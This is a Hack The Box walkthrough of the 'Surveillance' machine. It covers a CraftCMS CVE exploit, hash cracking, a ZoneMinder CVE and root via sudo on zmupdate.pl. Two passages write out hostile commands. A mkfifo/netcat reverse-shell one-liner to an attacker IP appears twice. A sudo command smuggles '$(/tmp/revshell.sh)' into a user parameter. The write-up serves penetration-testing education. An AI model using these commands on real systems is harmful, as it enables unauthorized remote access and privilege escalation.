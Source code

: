 ```yaml
---
layout: post
title: "HTB Surveillance: Walkthrough"
date: 2024-11-17 10:00:00 +0000
categories: [HTB]
tags: [HTB, CVE, Sudo, Port Forwarding]
image:
  path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Headers/HTB.png
---
```


![image](https://github.com/user-attachments/assets/51ff08a4-0cf0-4452-90c9-98c0f45d4cf3)

We start off with exploiting a CVE in a vulnerable CraftCMS running on the target webserver. This is then followed by a series of 3 privilege escalations. The first requiring us to download a backup SQL db `.zip` file containing an old users hash, which we can crack to gain SSH into the machine. The second involves another CVE on a `ZoneMinder` instance running on the targets localhost. Finally, we can abuse a misconfiguraton in our sudo privileges to gain access as the root user. 

## 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Privilege Escalation](#3-privilege-escalation)
4. [Privilege Escalation 2](#4-privilege-escalation-2)
5. [Privilege Escalation 3](#5-privilege-escalation-3)


## 1) Scans

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)

80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://surveillance.htb/

8181/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)

8888/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
```


## 2) Web Enumeration

Seems we're dealing with CraftCMS:

![image](https://github.com/user-attachments/assets/dde079b4-381f-43ce-8ae1-50cacb407155)


With a bit of research, we come across a [PoC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226
) for a CVE that happened recently.

If we exploit it using this script, we're able to get a "web-shell". (Just to note, you'll have to have Burpsuite running as the exploit connect to your proxy at first for this script to work.)

![image](https://github.com/user-attachments/assets/0310a88c-5d84-4377-89fb-b2bc6d41ab78)

Now that we're in, we need to find a way to leverage this web-shell to get a full reverse shell or an SSH connection. 

After various attempts to catch the shell, this command worked the best, giving us a very nice shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.14 4444 >/tmp/f
```
![image](https://github.com/user-attachments/assets/8def25ae-0984-4f66-8fb6-a8727306224f)

## 3) Privilege Escalation

Now to privilege escalate.

Now before I try loading `linPEAS` or anything like that onto the machine, I like to manually enumerate a little bit and check for low-hanging fruit and look through config files.

- No interesting SUID files.
- Cant access any of the other users home directories.
- We have 2 users with home directories.
  
![image](https://github.com/user-attachments/assets/d07fd683-6660-42a5-9846-b881942e7909)

Lets start looking through the CMS files and see if we can find anything interesting....

![image](https://github.com/user-attachments/assets/23a6d9fe-328e-4484-9340-80c998dbacc1)

Hmm a `.env` file. Thats definitely interesting.

![image](https://github.com/user-attachments/assets/5ccce8c0-2707-4da5-9cf1-d3a77542fc43)


Seems theres a MySQL DB running on the host.. and potentially another webserver on port 8080? We'll have to check that out afterwards, maybe through a portforward.

![image](https://github.com/user-attachments/assets/417449fb-1002-4cad-8d3a-392dd3003ed8)

I tried connecting to the DB, but it basically just kept hanging every time. So I just decided to upload a `metty.elf` file and get a meterpreter shell.

![image](https://github.com/user-attachments/assets/b5018a3b-fc4a-4744-baf3-aa4df1cbc262)

Now we are able to successfully access the DB.

![image](https://github.com/user-attachments/assets/d786e72b-834b-4b02-85f7-87ca2094357d)

![image](https://github.com/user-attachments/assets/fc56c864-00a2-43fc-bd25-5d65e96130af)

![image](https://github.com/user-attachments/assets/479286b0-5e4d-4441-972f-52317aa4cf45)

As we can see, there is a `bcrypt` hash belonging to the admin user, who also seems to be Matthew. Lets try hacking that hash offline, although I'm not too confident.

After a while of trying to crack it, it seems like this wasn't the intended route.

After some more enumeration, we find a backup `.zip` file.

![image](https://github.com/user-attachments/assets/3f4e8c25-9731-4767-b891-85ed490b8028)

Lets take that offline and take a look.

![image](https://github.com/user-attachments/assets/b8f90219-f837-4db0-be3a-bf217f2326d0)

Jackpot. Another hash for Matthew, which seems to be SHA-256. Now to crack it.

![image](https://github.com/user-attachments/assets/b9a300b0-f08c-4870-bc89-3e0c7ab87d52)

Lets try SSHing into the machine as matthew.

![image](https://github.com/user-attachments/assets/63b26603-fdc0-4447-8545-2dd7f91e765f)

![image](https://github.com/user-attachments/assets/b52f28ed-47dd-42d3-9794-643da79160dd)

## 4) Privilege Escalation 2

Now that we're on matthew, we can again check for low-hanging fruit. In this case, I didn't find any in this case, so lets run `linpeas`.

![image](https://github.com/user-attachments/assets/cb4f81ed-cd1b-440c-b054-d6d6d7364dff)

Interesting. I checked GTFOBins to see if there was a quick win, as I'm not that familiar with abusing capabilities.

![image](https://github.com/user-attachments/assets/aaaae3c0-8ff7-4355-9a67-733a1e3a302b)

Lets give it a try:

![image](https://github.com/user-attachments/assets/3d6cc604-66b8-4c29-acd0-ab33422c6273)

So it seems like because the python3 file is owned by `zoneminder`, we cant run it unless we are that user. _(Note: I'm writing this after completing the box. I think that the reason it didn't work was because that capability is basically like a SUID, and because the file is owned by zoneminder. Either way, I tried to specify the UID of zoneminder's, but it kept giving me access denied.)_

One other thing to note is that, in our linpeas output, it mentions something about that server running on 8080.

![image](https://github.com/user-attachments/assets/ccd58c3e-bfe0-4859-a2af-88a3b5049089)

Seems like its running PHP within an nginx webserver. Lets port forward now. (This command will allow us to access port 8080 on our local machines port 1234)

![image](https://github.com/user-attachments/assets/3c5db412-66dd-4a85-ade2-3c8acf7ae740)

![image](https://github.com/user-attachments/assets/de018b9d-523e-4b25-8967-b9c14aff08f6)

Now if we go back and look at the zoneminder.conf file a little more, we'll notice that the webroot is at:

![image](https://github.com/user-attachments/assets/f1cb747c-8d1b-412a-963e-5f6787567b5a)

Interesting, lets check out that `db` folder.

![image](https://github.com/user-attachments/assets/051fdb71-95f7-4f18-91cb-a76da4816f5d)

So it seems its showing a list of version updates that were made to the zoneminder application. Seems like its currently running `v1.36.9` or some version along those lines. Lets check for a CVE.

![image](https://github.com/user-attachments/assets/02e64d67-59a7-499f-bcaa-ef45807846cf)

Looks like our version would fall within that range, so we can try looking for a PoC, which in this case, there happen to be a few, so I'll be using [this](https://github.com/rvizx/CVE-2023-26035/tree/main) one.

![image](https://github.com/user-attachments/assets/88f500bb-345c-4220-825e-4517e9b0b431)

![image](https://github.com/user-attachments/assets/5c9ff9ee-c96b-44ce-8d96-2135de2543ea)

## 5) Privilege Escalation 3

Now that we're zoneminder, our final goal is close within reach. We can run a quick `sudo -l` and see if there is a quick win, hopefully without requiring a password.

![image](https://github.com/user-attachments/assets/3d8ee58d-48ee-4893-b7f0-78030ae951e0)

So after quite a bit of research and messing with the various `zm*.pl` files there are, we can leverage `zmupdate.pl` to basically pass a script to get executed as the username in one of the command parameters, and we'll need to use a password that we can find in a database.php file: (Note: don't think the password is actually needed for this exploit)

![image](https://github.com/user-attachments/assets/67c36cf1-dc2e-45ca-bafa-42b486092abf)

So the final command will look like this:
```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/revshell.sh)' --pass=ZoneMinderPassword2023
```

I had to try multiple reverse shells, the one that worked for me was:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.14 5555 >/tmp/f`

![image](https://github.com/user-attachments/assets/e0602271-165d-45c0-a0c3-3caa3c2b334f)




